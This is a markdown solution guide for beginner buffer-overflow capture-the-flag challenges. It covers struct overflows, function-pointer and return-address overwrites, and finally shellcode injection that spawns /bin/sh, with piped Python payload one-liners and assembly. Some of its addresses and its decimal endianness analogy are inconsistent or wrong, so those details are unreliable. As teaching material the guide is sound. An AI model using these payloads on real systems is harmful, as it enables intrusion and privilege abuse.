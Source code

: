# Solutions 
- This is a list of solutions to various *buffer overflow* challenges. 
- This is meant to ease students into the area, instead of drowning them on redirecting execution right away

## Firsty 
- The buffer is 32 characters long but accepts 0x100 characters. What happens if we write more than 32 characters? In particular, write 32 to get the flag. It's 32 and not 33 because of the NULL byte that gets written.
- The stack is setup in the following way:
	- my_string 
	- special_int 
- So, when the string gets added with more than 16 characters, then **cool_int** is overwritten!
- Simply corrupting this value is enough to pass the challenge.
- python3 -c 'print("A" * 32)' | ./firsty


## Dead 
- A little bit more tricky! 
- The overflow is the same as before, with the same stack setup. The ``my_string`` field of the struct overflows into ``special_int`` after 32 bytes. This is because the string itself is 32 bytes. 
- But, instead, we are using the overflow to **set** the integer value to a specific value! The char array is 32 byets long. Then, the integer is 4 bytes long.
- There are two main tricks to this: 
	- Writing the bytes properly 
	- Endianness
- Writing bytes: 
	- We are trying to write the integer 0xdeadbeef into memory.
	- The hex stream \xef is not a normal character. So, how do we write this? 
	- In Python (Python 2 at least) you can write escaped bytes with hex codes. 
	- Python example: print "\xef" 
		- This would print the literal byte 0xef
	- Common: 
		- Students will try to print the literal 0xdeadbeef. This will not work because this is intertuped as an integer.
- What is endianness? 
	- The ordering in which bytes are organized in memory. x86 is little Endian, meaning that the least significant byte appears first.
	- So, with 0xdeadbeef, we need to write this in the following way: 0xefbeadde. 
	- Remember, we are writing BYTES. 0xef is a SINGLE byte still.
- Final payload:
	- `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'\xef\xbe\xad\xde')" | ./dead`
	- Prints the proper bytes (with the Python hex escaping) and prints it in the proper Endinness.

## KillPtr
### Vuln Hunting:
- This is the same vulnerability as the previous challenges: a linear buffer overflow inside the ``danger`` struct from the ``my_string`` field. 
- This time, there is an extra field called ``functionPtr`` on this challenge. We want to corrupt this to change the flow. 
	- It is our goal to edit the *function pointer address* to point to something that we want to call.
- Second, figure out the offset. It's the same 32 bytes as before then an additional 4 for the integer field. 
- Third, go into GDB to figure out the address of the function ``print_flag``. Do this by typing in `disas print_flag`. This will give you an address to jump the flow of the program to, which is 0x8048586. 

### Exploit
- 1. Because the OS's Endian, we need to turn the Big Endian (i.e. 0x80485c3) into little Endian (i.e. 0xc3850408). Notice that this is PER byte. 
- 2. Since we are writing raw values to the stack, we need to use hex code to do this. In order to do this, we must write the characters prefaced with `\x`. So, in the example, turn `0x565556b4` into `\xb4\x56\x55\x56`. Add this value to the payload.
- 3. If all is done right, you should have redirected execution of the program to where the flag is at, displaying the flag.
- 4. My final payload is `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'\x56\x88\x04\x08')" | ./killPtr`
	- The exact address will differ from system to system though. 

## CorruptRet
- The concept is the same as the previous challenge for endianness and overflowing a pointer. But, this time, we are overwritting the EIP (instruction pointer) of the location. 
- The stack contains other important data relating to the previous stack frame: base pointer, stack pointer and instruction pointer. 
- If we can change the instruction pointer to be ``print_flag()`` then we can redirect the flow of execution! 
- The overflowing into the ``int`` is 32 bytes. 4 bytes through the int. Then, we have to care about the rest of the information on the stack. 
- Difference between ``&my_data`` and the location of the old IP is (0xffffd65c - 0xffffd62c) = 0x30. This is a total of 12 bytes more until the overflow. 
	- When ``leave()`` is called, this puts in the proper ebp from the previous frame is recovered. Additionally, there are two other bytes there that I am not sure about. 
	- The best way to find this offset is to *pause* at the first instruction of the function. 
	- Then, look at the stack pointer and you'll see the old EIP.
	- Compare this with the pointer to ``&my_data``. 
	- Subtract these pointers to get the amount of bytes to write. 
- Overflowing for 0x30 bytes will get us to the EIP. 
- Set this to the address of ``print_flag()`` like the previous challenge to get the flag.

```
python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'C' * 12 + b'\x56\x88\x04\x08')" | ./corruptRet
```

## execStack 
- Without an easy *win* function, we need to pop a shell on our own!
- Since the stack is executable, we can put our own code onto the stack and run that. But how!? 
	- The key to this is writing raw machine code. 
- We can put the raw machine code into the beginning of our input. Then, overwrite the return address (like the previous challenge) to jump to our machine code instead. 
	- The address of the machine code is printed at away in the program. 
	- Makes it obvious to see what's going on :) 
- You can find machine code (shellcode) online that works pretty quickly to pop a shell.
- A few tricks: 
	- Shellcode: 
		- Literally pops a shell.
		- Calling the syscall ``execve`` with ``/bin/sh`` as the parameters.
		```
		xor    %eax,%eax    -- Clean EAX to use as NULL
		push   %eax	        -- Push a null byte
		push   $0x68732f2f  -- Push part of /bin/sh
		push   $0x6e69622f  -- Push another part of /bin/sh
		mov    %esp,%ebx    -- Param 1 - binary to execute
		push   %eax         
		push   %ebx 
		mov    %esp,%ecx    -- Param 2 - Path of execution
		mov    $0xb,%al     -- The syscall (11) for execve
		int    $0x80        -- syscall interrupt
		```
		- https://shell-storm.org/shellcode/files/shellcode-827.html
	- Keeping the pipe open: 
		- The way we give input is SUPER important...if we don't have a way to interact with it, the code will DROP our input. 
		- So, we must have the extra ``cat -`` at the end of it. 
	- Stack pointer address will *differ* slightly between GDB and the live one. Keep this in mind.
- Shenanigans of the challenge: 
	- ``/bin/sh`` goes back to the original uid instead of the euid. So, we have to find a way to get the proper permissions for this...
		- This is done by becoming root then dropping the permissions to a user in the group that can read the flag. 
		- Now, the uid is the set and the shell will have the proper permissions. 
	- Clear edx: 
		- There is a short bit of assembler in the code...
		- This is because 'edx' being set to a non-null value screws everything up, since it acts as the third parameters ``envp``. 
		- Hence, we clear ``edx`` to make everyone's life easier. 
	- ASLR is turned off - so, the address can be static. It's even printed out to make our lives easier. 

```
(python3 -c "import sys; sys.stdout.buffer.write(b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + b'A' * (-23 + 32 + 4 + 12) + b'\x7c\xd6\xff\xff\x0A' + b'whoami')"; cat -) | ./execStack
```

What's going on!? 
- setuid is not working as expected on a forked call... 'system' doesn't inherit permissions from setuid. Probably a good thing! But... I've never seen this before!
- https://stackoverflow.com/questions/16258830/does-system-syscall-drop-privileges

### Further explanation:
- How the stack works:
    - On load of a function, the function address is pushed, followed by ebp then local variables (if needed).
    - Last on, first off style.
- Little Endian vs Big Endian:
    - https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
    - The location of the significance of the value. Most general number systems are little Endian (little end first) 1234 would be 1 x10^3+ 2x10^2 + 3x10^1 + 4x10^0 for instance. Big Endian would be 4x10^3....
- gdb:
    - This is a debugger
    - https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
